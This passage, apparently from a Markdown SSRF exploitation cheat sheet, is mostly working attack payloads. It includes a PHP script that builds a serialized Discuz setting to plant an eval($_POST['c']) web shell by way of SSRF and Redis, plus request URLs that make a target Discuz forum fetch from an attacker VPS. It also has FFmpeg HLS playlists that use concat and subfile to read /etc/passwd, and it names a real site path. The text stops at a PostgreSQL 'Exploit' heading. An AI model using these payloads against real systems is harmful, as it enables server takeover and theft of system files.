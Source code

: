 ```
http://bbs.biligame.com/data/cache/hello.php
```
### SSRF Redis Getshell
> Generate serialize

```
<?php
    $a['output']['preg']['search']['plugins'] = '/.*/e';
    $a['output']['preg']['replace']['plugins'] = '@eval($_POST['c']);';
    $a['rewritestatus']=1;
    $setting = serialize($a);
    echo $setting."\n".strlen($setting);
?>
```
> Output

```
a:2:{s:6:"output";a:1:{s:4:"preg";a:2:{s:6:"search";a:1:{s:7:"plugins";s:5:"/.*/e";}s:7:"replace";a:1:{s:7:"plugins";s:19:"@eval($_POST["c"]);";}}}s:13:"rewritestatus";i:1;}     //序列化数据
173     //字符串长度
```
#### example Discuz
> Open website

```
http://192.168.80.116/forum.php?mod=ajax&action=downremoteimg&message=[img=1,1]http://you-vps-ip/ssrf.php?.jpg[/img]&formhash=818c8f44
```
> Backdoor website

```
http://192.168.80.116/forum.php?mod=ajax&inajax=yes&action=getthreadtypes
```
### FFmpeg
> cat test.jpg

```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
concat:http://example.org/header.m3u8|file:///etc/passwd
#EXT-X-ENDLIST
```
> [subfile](https://www.ffmpeg.org/ffmpeg-protocols.html#subfile)

```
#EXTM3U
#EXT-X-MEDIA-SEQUENCE:0
#EXTINF:10.0,
concat:http://localhost/header.m3u8|subfile,,start,0,end,64,,:///etc/passwdconcat:http://localhost/header.m3u8|subfile,,start,64,end,128,,:///etc/passwdconcat:http://localhost/header.m3u8|subfile,,start,128,end,256,,:///etc/passwdconcat:http://localhost/header.m3u8|subfile,,start,256,end,512,,:///etc/passwd
#EXT-X-ENDLIST
```
### PostgreSQL
> Exploit
